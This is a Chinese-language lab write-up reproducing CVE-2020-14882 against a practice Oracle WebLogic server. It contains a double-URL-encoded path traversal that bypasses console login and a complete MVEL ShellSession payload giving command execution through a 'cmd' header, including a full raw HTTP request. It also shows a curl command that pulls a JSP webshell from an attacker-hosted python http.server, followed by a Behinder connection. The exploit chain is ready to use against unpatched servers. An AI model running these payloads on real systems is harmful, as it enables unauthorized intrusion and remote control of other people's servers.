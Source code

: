 # 0x01 信息收集

打开靶场地址，看到404页面不要慌张，先进行信息收集！

> ![image.png](https://cdn.nlark.com/yuque/0/2021/png/2540809/1612679798634-7463036b-fe48-4205-8283-409668b2b55d.png)

由于是靶场，就进行目录扫描，就不用进行子域名爆破了~

利用dirsearch进行爆破：

**`python3 dirsearch/dirsearch.py -u "http://172.23.26.66:7001/" -e \*`**

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2540809/1612679939510-6e0cfbeb-dbc8-446e-8e57-686f426436cb.png)

先访问200页面发现全是空页面，再尝试访问302重定向后的页面，发现了新天地！

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2540809/1612680010309-9227fff1-a1a7-42af-b854-30b50845feaa.png)

发现这是一个WebLogic， 并且有版本号，此时只用百度一下，就发现了该版本存在多个漏洞，最后我将它定位在 **CVE-2020-14882**

# 0x02 复现

在读完博客中大佬对该漏洞的复现之后，尝试自己进行复现并拿到webshell。

## 0#01 权限漏洞绕过

在最初的这个页面，是需要账号和用户名登录才可以进入后台，但是这里可以进行目录的骚操作来进行直接无密码登录后台。

```
http://172.23.26.66:7001/console/css/../console.portal
```

这条构造的url表示由于 `../`在目录中表示返回上一级目录， 即console这个目录，然后访问该目录下的后台文件

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2540809/1612680441434-03ae5c1a-e6b8-41ba-9a5f-b121d5f069af.png)

但是运行结果并不像我们像的那样， 还是被重定向到登陆页面

这里就需要一些小技巧进行绕过，用burp的url编码功能对`../`进行编码

```
http://172.23.26.66:7001/console/images/%2E%2E%2Fconsole.portal
```

结果还是被重定向了

将大写换成小写

`http://172.23.26.66:7001/console/images/%2e%2e%2fconsole.portal`无果

再进行一次url编码

```
http://172.23.26.66:7001/console/images/%252e%252e%252fconsole.portal
```

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2540809/1612680849859-c9491de2-1783-4a31-9b34-ceaf7188befd.png)

成功进入后台！

## 0#02 手工提交利用

此漏洞有多种利用方式，这里先赘述一下利用burp进行getshell

利用 GET传参 test_handle传入下面POC

```
test_handle=com.tangosol.coherence.mvel2.sh.ShellSession('weblogic.work.ExecuteThread currentThread = (weblogic.work.ExecuteThread)Thread.currentThread(); weblogic.work.WorkAdapter adapter = currentThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");field.setAccessible(true);Object obj = field.get(adapter);weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd");String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};if(cmd != null ){ String result = new java.util.Scanner(new java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter("\\A").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod("getResponse").invoke(req);res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();} currentThread.interrupt();')
```

并且传入cmd传参，如下所示，可以进行任意命令执行

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2540809/1612681269314-cc4574bb-0200-49c4-9d18-201bea90ea36.png)

下面就该写一句话木马并且getshell了

首先就是找到我们可以访问的目录

博客上说 `http://ip:port/console/images`目录下是可以访问的，我们不妨试试

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2540809/1612681512480-d181f830-2177-4a1b-a47c-5db3b64e30ae.png)

进入这个目录里，尝试访问里面的图片

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2540809/1612681596236-557f68ba-e777-4c94-a8a8-2230dcab20bf.png)

尝试用echo命令写入木马

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2540809/1612681739236-a5a018c2-f31f-42e0-bd78-61d0b5f83e1e.png)

成功写入木马，尝试连接会发现这里被weblogic的一些保护机制拦截了，无法访问

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2540809/1612681829035-10e1b9a2-3b41-49e9-801c-645983278d07.png)

接着只有找其他可以访问的目录写入木马，但是我尝试了大概2个多小时，没有发现可用目录，直到问了瑶瑶大佬才知道可以通过静态文件的方法快速准确的定位到可以访问的目录。

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2540809/1612681949656-ae47f8f3-94b8-4af8-9b27-f188cf391328.png)

下面是切换到可利用目录下的POC包：

```
GET /console/images/%252e%252e%252fconsole.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession('weblogic.work.ExecuteThread currentThread = (weblogic.work.ExecuteThread)Thread.currentThread(); weblogic.work.WorkAdapter adapter = currentThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");field.setAccessible(true);Object obj = field.get(adapter);weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd");String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};if(cmd != null ){ String result = new java.util.Scanner(new java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter("\\A").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod("getResponse").invoke(req);res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();} currentThread.interrupt();') HTTP/1.1
Host: 172.23.26.66:7001
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.146 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
cmd:pwd && cd ../../../wlserver/server/lib/consoleapp/webapp/framework/skins/wlsconsole/images && ls
Accept-Language: zh,zh-CN;q=0.9
Cookie: ADMINCONSOLESESSION=PG17Me6B3wrPxplUyKb0gzMERhT9gngwklINhVX9j92co34qeEkp!336989877
Connection: close
```

很快便锁定了这个目录，并且用同样的代码执行将木马写入，但是这里又遇到了问题，利用echo写入的木马用冰蝎无法获取到密钥，连接失败……

![QQ图片20210207151505.png](https://cdn.nlark.com/yuque/0/2021/png/2540809/1612682162564-550f48cd-5e46-410e-968f-ef4ddad52c22.png)

又请教了瑶瑶大佬，他教我用curl将木马写入！！！~

首先你需要一台有公网ip的服务器，并且装有python或者apache等web环境，这里利用的是python的httpserver服务进行文件共享。

第一步：先将木马文件放在服务器的目录里，并运行cmd命令，由于网上都是Liunx的环境，但条件简陋我利用的是windows server 2012

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2540809/1612682386173-dc9ce576-cccc-4e33-84f9-eb4f4dc30665.png)

在该目录下运行cmd命令，调用httpserver服务

```
python -m http.server 5000
```



![image.png](https://cdn.nlark.com/yuque/0/2021/png/2540809/1612682480858-ecb19b03-07f4-457c-a71f-99dfbb108c22.png)

开启之后要注意检查物理机能否访问该文件夹，若nmap扫描结果为filter，检查一下自己服务器的安全组是否开启了对应的端口

<img src="https://cdn.nlark.com/yuque/0/2021/png/2540809/1612682565714-fc100e63-0faf-47d5-b101-ceaa76b57f78.png" alt="QQ图片20210207152234.png" style="zoom: 150%;" />

这里的8000理解为上面对应的5000端口即可，准备就绪，准备上马~

将burp里的命令改为curl写入：

```
cmd:pwd && cd ../../../wlserver/server/lib/consoleapp/webapp/framework/skins/wlsconsole/images && curl http://ip:5000/shell.jsp > xiaoyi.jsp
```

最后尝试冰蝎连接

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2540809/1612682730739-80344da1-bf12-4ed1-962f-3c01afea7f8a.png)

连接成功，拿到webshell！~

# 0x03 总结

通过此次漏洞的复现，学会了准确快速的定位到用户可以访问的目录，学会了利用curl 的方式写入文件，同时学会了利用冰蝎，python多种工具~

该漏洞还可以利用反弹shell的方式，但我发现我没有linux服务器，不好测试，等啥时候俺有钱了一定把复现步骤补上！~